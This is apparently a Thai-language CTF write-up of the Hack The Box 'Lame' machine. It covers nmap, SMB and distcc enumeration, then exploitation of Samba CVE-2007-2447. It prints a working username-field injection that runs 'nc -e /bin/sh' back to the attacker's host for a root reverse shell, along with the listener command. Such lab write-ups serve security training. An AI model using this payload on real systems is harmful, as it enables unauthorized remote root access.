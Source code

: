 layout: secret_post
title:  "Test Encrypt"
date:   2019-01-01 00:00:00
key: "password"

# [](#header-1)Info card
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHvl49IgHnk-WKCt0u6%2F-MHvlnxDfRBJsqRVouf_%2Fimage.png?alt=media&token=992ad801-c46c-4ffb-9e02-1a2cab97283a)

# [](#header-1)Enumeration
```
nmap -sC -sV -Pn -oA  nmap/Lame_fullscan 10.10.10.3
```

## [](#header-2)Nmap scan result
```
Nmap scan report for 10.10.10.3
Host is up (0.030s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Por lists:
*   <b>Port 21</b> : เป็น FTP protocol โดยจากในผลการแสกน Nmap เราจะเห็นได้ว่าเป็น version  vsftpd 2.3.4 โดยเราจะเห็นว่ามันสามารถเข้าสู่ระบบแบบ anonymous ได้
*   <b>Port 22</b> : เป็น secure shell โดยมี version เป็น OpenSSH 4.7p1
*   <b>Port 139</b> กับ 445 : เป็น SMB Protocol เอาไว้สำหรับแชร์ไฟล์ต่างๆโดย

## [](#header-2)UDP Enumeration scan
```
nmap -sU -O -p- -oA nmap/udp 10.10.10.3
```

Nmap UDP scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).
Not shown: 65531 open|filtered ports
PORT     STATE  SERVICE
22/udp   closed ssh
139/udp  closed netbios-ssn
445/udp  closed microsoft-ds
3632/udp closed distcc
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
```

## [](#header-2)FTP (Port 21) Enumeration
```
ls /usr/share/nmap/scripts/ftp*
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHubWdy9-hoopvsWogz%2Fimage.png?alt=media&token=adf076b2-212c-4d2c-b9a8-b1e7504f11ec)

หลังจากนั้นลองรันคำสั่งไปที่ Port 21 ดูเพื่อเช็คว่ามันมีช่องโหว่หรือไม่

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHuc6Zl1Cxxj5SXtv9K%2Fimage.png?alt=media&token=6331cc41-6f29-49ef-bd3c-8bf7727b4da0)

จากผลของ Nmap สรุปคือไม่มี ช่องโหว่ทำไรต่อไม่ได้แล้วงั้นเราจะไปดูกันที่ Protocol อื่นกันต่อ

## [](#header-2)SSH (Port 22) Enumeration
```
ls /usr/share/nmap/scripts/ssh*
```

## [](#header-2)SMB (Port 139, 445) Enumeration

เราจะใช้ SMB client ในการเข้าถึง SMB Server โดยเราจะใช้คำสั่งด้านล่างดังต่อไปนี้
```
smbclient -L 10.10.10.3
```

* <b>-L</b> : แสดงบริการที่มีอยู่บนเซิฟเวอร์ 

แต่หลังจากที่ลองรันไปก็พข้อความ Error 
```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

วิธีแก้คือไปแก้ไข config ใน <b>smb.conf</b>
```
sudo gedit /etc/samba/smb.conf
```

หลังจากนั้นให้เราเพิ่ม  client max protocol = NT1  กับ client min protocol = NT1 เข้าไปในส่วน [global]

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuw_VCFpGa87iXaJ6c%2Fimage.png?alt=media&token=ffaba264-f49a-4467-874f-95edd4951625)

หรืออาจจะใช้คำสั่งนี้แทนก็ได้ 

```
smbclient -L //10.10.10.3/ --option='client min protocol=NT1'
```
จากนั้นผลลัพธ์ที่ได้จะออกมาลักษณะนี้

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuxEorqxMaV-NDsEIg%2Fimage.png?alt=media&token=5c34c0a6-ff4e-485e-96be-90f620822eab)

เราสามารถตรวจสอบ permission ของเราได้โดยใช้คำสั่งนี้ 
```
smbmap -H 10.10.10.3
```

ผลลัพธ์ที่ได้
```
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

จะเห็นว่าในโฟลเดอร์ tmp เรามีสิทธิ์ที่จะ READ กับ WRITE ได้

## [](#header-2)distcc v1 (Port 3632) Enumeration
```
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

Nmap scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.029s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687
```

# [](#header-1)Exploitation

## [](#header-2)Method 1 SMB using username field vuln

โดยหลังจากลองค้นหาข้อมูลดูก็พบว่ามันมีช่องโหว่จาก [CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447/) ซึ่งแน่นอนว่ามันมี Metasploit module อยู่แต่ถ้าเป็นการสอบ OSCP เราจะสามารถใช้ Metasploit ได้แค่ครั้งเดียวในการสอบเท่านั้นเพราะอย่างนั้นจึงควรหลีกเลี่ยงการใช้ให้มากที่สุดเท่าที่จะทำได้

ในส่วนของ PoC ของช่องโหว่นี้หากเราลองดูจาก source code
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvBNRsWgIb0dqmGkfY%2Fimage.png?alt=media&token=8202355a-ddd9-47ca-8da9-10ac1b1f58ea)

จะเห็นว่าช่องโหว่นี้เกิดจาก username มีการรับ metacharacter ซึ่งในการที่รับ input เข้ามานั้นหมายความว่าเราสามารถป้อนอินพุตอะไรก็ได้ (arbitary commands) โดยมันจะทำการรันคำสั่งอะไรก็ได้ที่ผู้ใช้ป้อนเข้าไปโดยเราจะใช้ประโยชน์จากจุดนี้ในการทำ <b>reverse shell</b>

## [](#header-2)Reverse shell using nc
เราจะทำการเปิด port 4444 ในเครื่องของเราให้มันรอรับการเชื่อมต่อ จากเครื่องเป้าหมายโดยใช้คำสั่งนี้
```
nc -nlvp 4444
```

หลังจากนั้นเราจะใช้ smbclient เพื่อเชื่อมต่อไปที่โฟลเดอร์ <b>tmp</b> เพราะเรามีสิทธิในการ READ,WRITE ได้โดยใช้

### [](#header-3)Login to SMB client
```
smbclient //10.10.10.3/tmp
```

หลังจากที่เราเข้ามาแล้วมาแล้วตรงส่วนของ password เราไม่ต้องกรอกอะไร enter ได้เลยเพราะเนื่องจากเราเข้าใช้งานในฐานะของ <b>anonymous user</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvSnuNYZoEUguZ6Leu%2Fimage.png?alt=media&token=eda01e16-d903-42c0-bcea-c88fc752dfc1)

## [](#header-2)Got Root
หลังจากนั้นเราจะเอา payload ที่ได้จาก PoC ด้านบนมาใช้เพื่อ excute command ให้มัน reverse shell มาที่เครื่องของเราโดยใช้คำสั่ง

```
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvT9MKtBevt2RJT3ce%2Fimage.png?alt=media&token=df715f08-5261-4bb6-bd8a-9059b8c786ad)

หลังจากนั้นกลับมาดูที่ nc ที่เราเปิด port เอาไว้เราจะเห็นว่ามีการเชื่อมต่อเข้ามาจากเครื่องของเป้าหมายเรียบร้อยแล้วด้วยสิทธิ์ของ <b>root</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvU1MqwpM2leeAgjOi%2Fimage.png?alt=media&token=51d9d02d-06bb-4ac5-99fa-005c0d878c94)
